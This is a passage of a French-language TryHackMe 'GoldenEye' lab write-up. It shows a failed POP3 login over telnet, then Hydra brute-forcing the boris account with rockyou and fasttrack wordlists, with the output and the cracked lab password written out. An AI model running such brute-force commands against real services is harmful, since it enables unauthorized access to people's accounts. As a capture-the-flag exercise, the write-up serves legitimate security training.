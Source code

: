 Comme suggéré dans le challenge et dans la page index, tentons de nous connecter avec l'utilisateur boris:InvincibleHack3r au serveur pop3 sur le port 55007 trouvé avec nmap .

( [pop3 en ligne de commande](https://www.vircom.com/blog/quick-guide-of-pop3-command-line-to-type-in-telnet/) )

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

### Hydra

Comme les crédentiels de l'utilisateur boris ne fonctionnent pas pour le serveur pop3, le challenge suggère d'utiliser [Hydra](outils.md#hydra).

Lançons une brute-force hydra pop3 port 55007 avec la wordlist classique rockyou.txt

```sh
hydra -l boris  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s 55007 -t 64
```

Au bout de 10 minutes, nous n'avons trouvé aucun password et la commande semble partie pour des heures ! Dans les challenges THM, les attaques brut-force répondent en général en quelques minutes, certainement en moins de 10 minutes. (Tout dépend évidemment de la vitesse de calcul de votre machine.)

Changeons la wordlist et lançons Hydra avec fasttrack.txt en lieu et place de rockyou.txt.

```sh
hydra -l boris  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
```

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l boris  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:55:45
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:13

```
